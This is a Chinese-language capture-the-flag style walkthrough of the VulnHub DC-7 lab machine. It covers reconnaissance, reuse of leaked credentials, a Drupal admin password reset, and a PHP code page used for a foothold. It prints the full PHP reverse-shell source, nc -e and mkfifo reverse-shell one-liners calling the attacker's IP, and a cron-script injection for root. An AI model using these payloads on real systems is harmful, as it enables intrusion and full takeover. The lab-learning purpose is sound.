


# DC 7

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-7,356/

## 知识点

- php写文件反弹shell
- 定时任务提权

## 信息收集

```bash
ifconfig eth0 # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.162
```


## 漏洞利用


下面提示@DC7USER，谷歌搜索发现Github

- https://github.com/Dc7User/staffdb


在config.php文件发现数据库mysql账号密码


但目标网站没有开放mysql端口，尝试用来SSH登录
`dc7user MdR3xOgB7#dW`
```bash
ssh dc7user@10.30.0.162
ls # 收到邮件提示查看
cat /var/mail/dc7user
```

是一个定时备份脚本，得到备份目录,进行查看



```bash
cat /opt/scripts/backups.sh
```


可以看到drush命令，可以用它来修改密码，drush为该网站的网站管理指令，可以通过该命令给网站后台添加一个用户名和密码
该命令必须在指定网站目录下使用，kali不具备该命令

```bash
cd /var/www/html
drush user-password admin --password="admin" # 成功修改，去登录
```


打开页面去安装一个PHP扩展方便写入木马
Manage-->Extend-->List-->Install new module

扩展: https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz


回到主页，在左边的 Tools 栏中点击 Add content -> Basic page,Text format 选择 PHP code

写入一个php反向shell
- https://pentestmonkey.net/tools/web-shells/php-reverse-shell
```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.30.0.81';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```


```bash
nc -lvnp 4444
```

点击preview 成功反弹


看到另外一种方法
```
当在主页面的文档中写入
<?php phpinfo();?>
php语句被执行，写入我们要执行的命令

<?php system('nc -e /bin/bash 192.168.211.128 5555')?>
kali 监听端口打开页面即可返回shell

交互Shell
python -c "import pty;pty.spawn('/bin/bash')"
```


**提权**

和 dc7user 这个用户一样, www 用户也啥吊权限没有,只好把希望放在之前的备份脚本上

```bash
cd /opt/scripts/
ls -all
```


可见文件属组为 www-data,组权限 rwx,我们可以对脚本进行修改,期望通过定时任务尝试提权

```bash
nc -lvnp 5555 # kali

# 写入payload
cd /opt/scripts/
echo "mkfifo /tmp/bqro; nc 10.30.0.81 5555 0</tmp/bqro | /bin/sh >/tmp/bqro 2>&1; rm /tmp/bqro" >> /opt/scripts/backups.sh
cat backups.sh
```

入之后要等一下备份程序的运行（15分钟一次），会反弹一个root权限回来



## 参考链接
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC7-WalkThrough.md
- http://www.kxsy.work/2021/08/06/shen-tou-dc-7/
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/yrk4mg